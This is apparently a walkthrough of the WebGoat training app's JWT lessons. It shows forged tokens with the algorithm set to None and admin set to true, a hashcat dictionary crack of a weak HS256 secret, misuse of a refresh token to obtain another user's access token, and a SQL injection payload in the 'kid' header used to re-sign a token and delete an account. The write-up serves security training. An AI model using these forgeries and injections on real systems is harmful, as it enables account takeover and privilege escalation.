 # (A2) JWT tokens

## Lesson 4 - JWT signing
Login as Tom and grab the JWT token from `Set-Cookie` response header:
```
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1ODYxNjAzNTUsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiVG9tIn0.dsugXZYLM8WnyzWAA-CFOXCAzfVn0DwzrlmeY6Bns-Uce9Ez3IMq4SSLbk1YgQWNeg7kchjL9wUIqo6nVg8Sfg
```

We can easily decode the token on https://jwt.io/ (or manually on [Base64URL](http://www.base64url.com/)):
```
Header:
{
  "alg": "HS512"
}

Payload:
{
  "iat": 1586160355,
  "admin": "false",
  "user": "Tom"
}

Signature:
dsugXZYLM8WnyzWAA-CFOXCAzfVn0DwzrlmeY6Bns-Uce9Ez3IMq4SSLbk1YgQWNeg7kchjL9wUIqo6nVg8Sfg
```

Let's make a few changes (`alg` to `None` and `admin` to `true`):
```
Header:
{
  "alg": "None"
}

Payload:
{
  "iat": 1586160355,
  "admin": "true",
  "user": "Tom"
}
``` 

Encode it again with [Base64URL](http://www.base64url.com/), omit the signature completely and use this token
to reset the votes:
```
eyAiYWxnIjogIk5vbmUiIH0.eyAgImlhdCI6IDE1ODYxNjAzNTUsICAiYWRtaW4iOiAidHJ1ZSIsICAidXNlciI6ICJUb20ifQ.
```

## Lesson 5 - JWT cracking
The goal is to crack the given (randomly generated) JWT token:
```
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTU4NTA4MzgyOCwiZXhwIjoxNTg1MDgzODg4LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.fqAAKhCRC__ZeBKZJkR8zDMmfDJLCYd4YJMrrbVXiJc
```

The token is signed with `HS256` but the password is weak. I chose [hashcat](https://hashcat.net/hashcat/)
which has a built-in support for cracking JWT tokens:
```
$ hashcat -a 0 -m 16500 data/02-broken-auth/jwt-token.txt data/02-broken-auth/google-10000-english.txt
..
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTU4NTA4MzgyOCwiZXhwIjoxNTg1MDgzODg4LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.fqAAKhCRC__ZeBKZJkR8zDMmfDJLCYd4YJMrrbVXiJc:business
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: JWT (JSON Web Token)
Hash.Target......: eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIE...bVXiJc
Time.Started.....: Fri Mar 27 04:03:58 2020 (1 sec)
Time.Estimated...: Fri Mar 27 04:03:59 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    25384 H/s (8.64ms) @ Accel:384 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4608/14344385 (0.03%)
Rejected.........: 0/4608 (0.00%)
Restore.Point....: 3072/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: adriano -> class08
```
- `-a 0` is for dictionary attack
- `-m 16500` is for JWT token (you can find in help)

The password is `business`. Knowing the password, we can easily modify the and re-sign the token on https://jwt.io/.

Note: _hashcat_ was unable to crack some of the tokens failing on `Token length exception`. This is perhaps
a bug in `hashcat 5.1.0`? I had to try more tokens before succeeding. More people are having the same issue.

## Lesson 7 - Refreshing a token
Grab Tom's expired access token from the attached logfile:
```
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/checkout?token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q HTTP/1.1" 401 242 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
```

Then grab yours (Jerry's) refresh token from this request:
```
POST http://localhost:8080/WebGoat/JWT/refresh/login
{"user":"Jerry","password":"bm5nhSkxCXZkKRy4"}

---
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "KmEsYjlyyXXZXMzJtgYK"
}
```

Now you can obtain a new access token for Tom using Tom's expired access token and __your__ refresh token:
```
POST http://localhost:8080/WebGoat/JWT/refresh/newToken
Content-Type: application/json; charset=UTF-8
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q

{"refresh_token": "KmEsYjlyyXXZXMzJtgYK"}

---
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg",
  "refresh_token" : "EQjLJaClKoYgwVRKczxT"
}
```
_I had to look into source code to find the `JWT/refresh/newToken` endpoint._

Finally, use the obtained access token for checkout:
```
POST http://vernjan:8080/WebGoat/JWT/refresh/checkout
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg

---
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations. You have successfully completed the assignment.",
  "output" : null,
  "assignment" : "JWTRefreshEndpoint",
  "attemptWasMade" : true
}
```

## Lesson 8 - Final challenges
Let's start with decoding Jerry's JWT:
```
Header:
{
  "typ": "JWT",
  "kid": "webgoat_key",
  "alg": "HS256"
}

Payload:
{
  "iss": "WebGoat Token Builder",
  "iat": 1524210904,
  "exp": 1618905304,
  "aud": "webgoat.org",
  "sub": "jerry@webgoat.com",
  "username": "Jerry",
  "Email": "jerry@webgoat.com",
  "Role": [
    "Cat"
  ]
}
```

We know the `kid` (key ID). See https://stackoverflow.com/questions/43867440/whats-the-meaning-of-the-kid-claim-in-a-jwt-token

Hint is to try SQL injection. We can try to change the key ID to, for example, `mykey`.
Use https://jwt.io to easily manipulate the JWT:
```
Header:
{
  "typ": "JWT",
  "kid": "webgoat_key' UNION SELECT 'bXlrZXk=' FROM SALARIES -- ",
  "alg": "HS256"
}
```
- `bXlrZXk=` is `mykey` encoded in Base64
- `SALARIES` is just a random table we know that exists (to make the SQL query valid)

```
Payload:
{
  "iss": "WebGoat Token Builder",
  "iat": 1524210904,
  "exp": 1618905304,
  "aud": "webgoat.org",
  "sub": "jerry@webgoat.com",
  "username": "Tom",
  "Email": "jerry@webgoat.com",
  "Role": [
    "Cat"
  ]
}
```
- Change username to `Tom`

And finally, sign with `mykey`:
```
eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleScgVU5JT04gU0VMRUNUICdiWGxyWlhrPScgRlJPTSBTQUxBUklFUyAtLSAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiVG9tIiwiRW1haWwiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsIlJvbGUiOlsiQ2F0Il19.cFOOglRj7lBOlZbWRctZF3LOPyt1Zx_xiVawv4KM5Xw
```

You can use this JWT to delete Tom's account.